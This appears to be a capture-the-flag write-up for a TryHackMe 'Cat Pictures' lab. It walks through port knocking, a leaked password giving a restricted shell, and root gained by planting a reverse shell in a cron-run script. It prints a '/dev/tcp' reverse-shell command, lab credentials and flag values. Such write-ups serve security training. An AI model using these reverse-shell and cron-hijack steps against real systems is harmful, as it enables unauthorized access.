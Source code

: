 ```yaml
---
title: Test Writeup - Cat pictures
date: 2021-06-14 19:44:00 +05:30
modified: 2021-06-15 19:44:00 +05:30
tags: [writeups]
description: Writeup for THM - Cat pictures
---
```


---
### Enumeration

#### NMAP scan

```bash
PORT     STATE    SERVICE    REASON              VERSION
21/tcp   filtered ftp        port-unreach ttl 63
22/tcp   open     ssh        syn-ack ttl 63      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
8080/tcp filtered http-proxy no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


-------

### Foothold 

- site on port 8080 :
<figure>
<img src="/assets/img/thm/testwriteup/site.png" alt="site on port 8080">
<figcaption>Port 8080</figcaption>
</figure>

- link : http://10.10.23.106:8080/viewtopic.php?f=2&t=2
<figure>
<img src="/assets/img/thm/testwriteup/hint.png" alt="hint">
<figcaption>Hint</figcaption>
</figure>
- a hint for port knocking(?)
- lets try it out : https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html
- after port knocking twice got access to FTP

```bash
knock $IP 1111 2222 3333 4444
```
- got a `note.txt`:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```
- and connecting to it via nc on `4420` with the gn passwd we have a limited shell
<figure>
<img src="/assets/img/thm/testwriteup/shell.png" alt="restricted shell">
<figcaption>restricted shell</figcaption>
</figure>
- since `cd` was not available got a reverse shell working
- `strings` was not there so used `cat`:

```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
- using the passwd : `rebecca`
- and it works!!

----

### Privesc

- `.bash_history`:

```bash
root@7546fa2336d6:/# cat .bash_history 
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```
- so its probably a cron job
- put a simple bash rev shell in that as we are root and we can write to it
- got a rev shell... ROOTED!!! 

-----

### Creds

1. sardinethecat -> internal shell
2. rebecca : runme script

-----

### Flags

1. User flag => `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
2. Root flag => `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

----
